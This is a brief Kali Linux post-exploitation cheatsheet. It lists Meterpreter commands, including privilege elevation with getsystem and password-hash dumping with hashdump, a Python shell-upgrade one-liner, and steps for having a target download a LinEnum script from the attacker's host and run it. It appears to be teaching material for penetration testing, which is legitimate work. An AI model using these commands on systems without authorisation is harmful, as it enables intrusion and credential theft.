 # Kali Cheatsheet 7: Post-Exploitation
Actions taken after gaining initial access.
### Meterpreter (part of Metasploit)
- **Description:** An advanced, multi-functional payload.
- **Core Commands (inside a meterpreter session):**

| Command           | Description                              |
| :---------------- | :--------------------------------------- |
| `sysinfo`         | Get system information.                  |
| `getuid`          | Get the user the server is running as.   |
| `ps`              | List running processes.                  |
| `migrate <pid>`   | Migrate to another process.              |
| `upload <file>`   | Upload a file to the target.             |
| `download <file>` | Download a file from the target.         |
| `shell`           | Drop into a standard system shell.       |
| `getsystem`       | Attempt to elevate privileges to SYSTEM. |
| `hashdump`        | Dump password hashes from SAM.           |
### Upgrading a Shell
- **Description:** Often you get a "dumb" shell (`sh`). You can upgrade it to a fully interactive TTY.
- **Common Python Trick:**
```bash
  # Run this in the target's dumb shell
  python -c 'import pty; pty.spawn("/bin/bash")'
```
### Linux Privilege Escalation Scripts
- **Description:** Scripts that automatically enumerate a Linux system for privilege escalation vectors.
- **Usage (e.g., LinEnum.sh):**
```bash
    # On Kali: Start a web server to host the script
    python3 -m http.server 80
    
    # On Target: Download and run the script
    wget http://<kali_ip>/LinEnum.sh
    chmod +x LinEnum.sh
    ./LinEnum.sh
```
